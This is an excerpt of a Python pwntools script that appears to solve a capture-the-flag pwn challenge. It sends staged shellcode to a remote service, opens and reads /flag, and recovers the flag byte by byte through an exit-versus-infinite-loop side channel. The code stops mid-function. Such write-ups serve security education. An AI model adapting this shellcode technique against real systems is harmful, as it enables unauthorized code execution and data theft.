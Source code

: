 ```python
# Precompile the parts of the shellcode that do not change during iterations
nop_shellcode = asm("""
    .rept 9
    nop
    .endr
""")
open_shellcode = asm(shellcraft.open("/flag", constants.O_RDONLY, None))
read_shellcode = asm(shellcraft.read(3, count=13))
exit_setup_shellcode = asm("""
        //Set up exit
        xor rax, rax
        mov rdi, 4
        mov r8, 60
""")


def connect():
    sc = f"""
    //read(rsi=0, rdi=rip, rdx=1000) #rcx=RIP
    push rdx
    pop rsi
    push rax
    pop rdi
    syscall
    """
    global p
    #p = process(elf.file.name)
    p = remote("win.the.seetf.sg", 2002)
    p.recv()
    p.send(asm(sc))

def tryChar(c, index):
    connect()

    shellcode = nop_shellcode
    shellcode += open_shellcode
    shellcode += read_shellcode
    shellcode += exit_setup_shellcode

    # Compile the dynamic part together with the exit part
    cmp_and_exit_shellcode = f"""
        // Compare each guessed character with the flag loaded in memory
        mov rbx, [rsp + {index // 8}*8]
        shr rbx, {8*(index%8)}
        cmp bl, {ord(c)}
        jz loop

        // Exit if correct
        mov rax, r8
        syscall
        jmp end

        // Loop if incorrect
        loop:
            jmp loop
        end:
    """
    shellcode += asm(cmp_and_exit_shellcode)

    p.send(shellcode)

    # Try reading
    try:
```